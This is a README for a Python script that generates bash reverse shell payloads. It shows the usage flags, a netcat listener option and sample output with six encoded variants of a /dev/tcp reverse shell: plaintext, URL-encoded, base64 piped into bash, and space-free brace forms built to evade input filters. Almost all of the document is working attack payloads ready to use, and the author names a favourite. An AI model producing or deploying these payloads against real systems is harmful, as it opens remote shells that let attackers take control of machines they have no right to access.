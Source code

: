 # Simple generator reverse shell for bash

**Description**

Simple generator reverse shell payload for bash in python

Usage:
```
$ ./genRevShell.py [flags]
```
Flags:
```
-a, --addr    Address for reverse connect
-p, --port    Port for reverse connect, 9001 by default
-r            Run the netcat on localhost
```
Example:
```
$ ./genRevShell.py -a 10.10.14.128 -r
```
Output:
```
[*] Input address is 10.10.14.128
[*] Input port is 9001

[1] The bash payload in plaintext:

bash  -c 'bash -i >& /dev/tcp/10.10.14.128/9001 0>&1'

[2] The bash payload in URL(plaintext):

bash%20%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.128%2F9001%200%3E%261%27

[3] The bash payload in Base64():

echo YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=|base64 -d|bash -i

[4] The bash payload in URL(Base64()):

echo%20YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7Cbase64%20-d%7Cbash%20-i

[5] The bash payload in Base64() with no spaces:

{echo,YmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc=}|{base64,-d}|{bash,-i}

[6] The bash payload in URL(Base64()) with no spaces:

%7Becho%2CYmFzaCAgLWMgJ2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTI4LzkwMDEgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D

[+] Run the netcat on localhost on 9001:

Listening on 0.0.0.0 9001
```
My favorite choice is [3] payload :)
